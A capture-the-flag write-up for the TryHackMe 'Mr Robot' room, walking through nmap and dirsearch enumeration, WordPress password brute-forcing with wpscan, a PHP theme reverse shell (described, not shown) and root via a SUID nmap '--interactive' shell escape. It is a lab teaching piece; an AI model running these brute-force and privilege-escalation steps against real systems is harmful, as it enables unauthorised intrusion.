 # Writeup for Mr Robot room on TryHackMe.
URL = https://tryhackme.com/mrrobot
Based on the Mr. Robot show, can you root this box?

Enumeration: -
Lets run quick nmap scan.
```bash
sudo nmap -A <ip>
```
This returned 2 open ports.
port      |service
----------|----------
22        |SSH
80        |Web server
443       |Web server (HTTPS)

Let's enumerate port 80.
Hmm... Interesting page.
Let's check /robots.txt.

![robots](images/robots.png)

So, we found the first key. Also, we got some wordlist.

Lets directory burst.

```
dirsearch -u url -e php,txt,html -x 400,401,403 -w wordlist
```

Found /wp-admin/ page which redirects to login.
We can try to bruteforce username/password using that but since this is Mr Robot box let's guess the username and try Elliot. 

![wordpress](images/wordpress.png)

Bingo! Wordpress says wrong password for username Elliot. Let's bruteforce password using the wordlist we got above but before that I noticed this contains so many words and duplicates. Let's sort it out using below commmand.

```
sort fsocity.dlc | uniq > fsocity-sorted.dlc
```

Now, lets bruteforce with sorted wordlist.

```
wpscan --url http://ip/ -U Elliot -P fsocity-sorted.dlc
```

And we found the password. Let's get shell by uploading php shell as theme. If you don't what this is do wordpress theme exploit reverse shell search on Google.

And we got daemon user.

Run linpeas and you'll see nmap is running as suid. 

![suid](images/suid.png)

Let's exploit it to get root.

```
/usr/local/bin/nmap --interactive
!sh
```

![root](images/root.png)

